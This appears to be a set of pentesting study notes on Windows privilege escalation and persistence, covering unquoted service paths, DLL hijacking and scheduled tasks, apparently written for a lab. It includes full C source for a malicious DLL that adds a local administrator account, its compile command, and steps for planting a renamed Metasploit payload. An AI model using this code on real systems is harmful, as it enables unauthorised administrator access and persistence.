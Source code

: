 # Privilege Escalation / Persistence

In order to escalate privilege from a regular user to a higher level account (Administrator/System Authority), you need either a `misconfiguration` (typically permission issues on services, scheduled tasks etc...) or an `exploit` (Remote/Rogue/Sweet/Rotten/Juicy/God Potato etc..) - a properly patched and configured system will provide challenges to escalte privileges from a standard user to a administrator user. 

That being said, there are numerous techniques to obtain hashes/passwords, that don't requite administrator privileges - such as `kerberoasting`, `ntlm relaying` and `password spraying`.

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\service.exe
- create pingservice in vs2019

-> C:\MyPrograms\`vulnerable.exe`  arguments `Service\service.exe`

By placing a malicious service exe in c:\MyPrograms\ named `vulnerable.exe`, we'll escalate privileges wo NT SYSTEM AUHTORITY (if the service is running with those privileges)

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc qc VulnService
sc start VulnService
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

# DLL Hijack
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)

UAC Bypass (admin user -> high integrity) -> PrivsFU -> NT AUTH

# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```